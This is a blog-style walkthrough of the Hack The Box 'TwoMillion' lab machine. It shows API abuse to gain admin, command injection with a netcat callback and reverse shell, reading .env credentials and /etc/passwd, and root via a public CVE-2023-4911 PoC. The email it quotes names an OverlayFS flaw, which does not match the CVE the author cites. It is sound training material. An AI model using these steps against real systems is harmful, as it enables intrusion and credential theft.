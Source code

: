 ```yaml
---
title: HTB TwoMillion - Writeup
date: 2025-07-15 13:53:00 +0330
categories: [Writeup]
tags: [api,cve]
description: My writeup of TwoMillion from Hack The Box 

---
```


![infocard](assets/img/twomillion_infocard.png)

## - **Introduction**
The initial process to get a foothold was to first find an invite code so that we can sign up, then we used an API endpoint to change our role to Administrator. After that, we find out that there is a Command Injection vulnerability in one of the admin endpoints and so we got a reverse shell from the box.

## - **Recon & Enum**
##### Port Scanning
To start off our recon we will begin with an Nmap scan of the machine:
```shell
$ sudo nmap -sC -sV -oN 2mil_nmap --min-rate=1000 10.10.11.221
```
```
Nmap scan report for 10.10.11.221
Host is up (0.52s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

>I always perform a full scan with then `-p-` flag to make sure no port is left behind but I am not including that here as we only have two tcp ports open.
{: .prompt-info }

```shell
$ sudo echo "10.10.11.221\t2million.htb" >> /etc/hosts
```

>We need to add the 2million.htb hostname to `/etc/hosts`.
{: .prompt-tip }
---
##### Creating an Account and finding the vulnerability
After browsing the site for a bit, I found two interesting pages, `/login` and `/invite` but to actually sign up we needed an invite code.
So after analyzing the requests in burp, I noticed the api nodes.

![login](assets/img/twomillion_burp_login.png)
![verify](assets/img/twomillion_burp_verify.png)
so I tried brute forcing api endpoints using gobuster and I found `/api/v1/invite/generate`.
```shell
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
```
```
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://2million.htb/api/v1/invite
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   301
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/verify               (Status: 405) [Size: 0]
/generate             (Status: 405) [Size: 0]
Progress: 18806 / 1273833 (1.48%)
```
So I used burp to send a POST request and got a response with an invite code (base64 encoded).

![invitecode](assets/img/twomillion_burp_invite.png)

After creating an account and logging in, only a few pages were accessible. I got a little stuck at first but when I tried accessing `/api` again, it authorized and I got a view of every API endpoint.

![api](assets/img/twomillion_api_v1.png)

Here `/admin/setting/update` caught my eye , I started playing around with it in burp and changed my role to admin.


![update](assets/img/twomillion_burp_update.png)

## - **Foothold**
Now this is were I got stuck for quite some time, but eventually I got it.  
The `/api/v1/admin/vpn/generate` and `/api/v1/user/vpn/generate` endpoints interact with the OS, so I tried injecting commands.
Though I have to say at first I didn't see it because the responses were empty. To make sure, I set up a `netcat` listener and made a request back to myself.

![update](assets/img/twomillion_cmd.png)

```shell
$ nc -nvlp 9070         
```
```
listening on [any] 9070 ...
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 52748
GET / HTTP/1.1
Host: 10.10.16.42:9070
User-Agent: curl/7.81.0
Accept: */*
```

And here comes the reverse shell...
```
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 42046
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2million:~/html$ id    
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@2million:~/html$
```

## - **User**
Getting the user was just waaay too easy. Looking at the files in `html` folder, there is a `.env` file. What was inside you may ask, DATABASE CREDENTIALS!
```
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=*****************
```

```
www-data@2million:~/html$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

And tada!

```
admin@2million:~$ cat user.txt
59f625d****************eebc95d5e
```

## - **Root**
Using linpeas and looking around myself I found an email which directly pointed to the vulnerability we'll use to escalate privileges.
```
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Googled a bit and found out the email is referring to `CVE-2023-4911` and I used this [POC](https://github.com/NishanthAnand21/CVE-2023-4911-PoC) to get root.
>You can use `python3 -m http.server` to send files to the victim machine.
{: .prompt-tip }

```
admin@2million:/tmp$ python3 genlib.py 
admin@2million:/tmp$ chmod +x titap
admin@2million:/tmp$ ./titap
# whoami
root
# id
uid=0(root) gid=1000(admin) groups=1000(admin)
```

And the flag

```
# cd /root
# cat root.txt 
5b5c6****************90556050597
```

DONE!

![update](assets/img/twomillion_congrats.png)

Thanks for reading!
